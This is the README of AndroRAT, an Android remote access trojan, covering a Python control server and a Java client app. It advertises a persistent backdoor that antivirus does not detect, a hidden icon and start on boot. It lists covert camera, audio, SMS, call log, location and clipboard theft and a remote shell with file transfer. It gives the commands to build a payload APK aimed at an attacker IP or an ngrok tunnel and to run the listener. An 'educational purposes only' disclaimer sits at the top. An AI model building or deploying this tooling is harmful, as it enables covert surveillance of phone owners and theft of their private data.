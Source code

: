 Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.
# AndroRAT
AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.
AndroRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

    AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable.

Screenshots

AndroRAT
Features of AndroRAT

    Full persistent backdoor
    Fully undetectable by any antivirus scanner VirusTotal
    Invisible icon on install
    Light weight apk which runs 24*7 in background
    App starts automatically on boot up
    Can record audio, video, take picture from both camera
    Browse call logs and SMS logs
    Get current location, sim card details ,ip, mac address of the device

Prerequisites

AndroRAT requires Python3 and JAVA (or Android Studio)
Installation

git clone https://github.com/Manexskidored/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt

Note:

While cloning the repository using Git bash on Windows, you may get the following error:

    error: unable to create file <filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename.

You can circumvent this by setting core.longpaths to true.

    git config --system core.longpaths true

You must run Git bash with administrator privileges.
Usage (Windows and Linux)

    To get the control panel of the app dial *#*#1337#*#* (For now it has only two options Restart Activity and Uninstall)

    Note: In order to use this feature in some devices you need to enable the option display pop-up windows running in background from the settings.

Available Modes

    --build - for building the android apk
    --ngrok - for using ngrok tunnel (over the internet)
    --shell - getting an interactive shell of the device

build mode

Usage:
  python3 androRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

Usage:
  python3 androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)

Or you can manually build the apk by importing Android Code folder to Android Studio and changing the IP address and port number in config.java file and then you can generate the signed apk from Android Studio -> Build -> Generate Signed APK(s)
shell mode

Usage:
  python3 androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number

After running the shell mode you will get an interpreter of the device

Commands which can run on the interpreter

    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter

In the sh shell there are some sub commands

    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device

Examples

    To build the apk using ngrok which will also set the listner: python3 androRAT.py --build --ngrok -o evil.apk

    To build the apk using desired ip and port: python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk

    To get the interpreter: python3 androRAT.py --shell -i 0.0.0.0 -p 8000

Interpreter Examples

    Generating APK

------------------------------------------------------------------------------------------------------------------------------

    Some interpreter Commands

------------------------------------------------------------------------------------------------------------------------------
Supporters:

rayep
TODO

    Ngrok support
    Set up multi client
    Add screenshot command

License
AndroRAT is licensed under MIT license take a look at the LICENSE for more information.
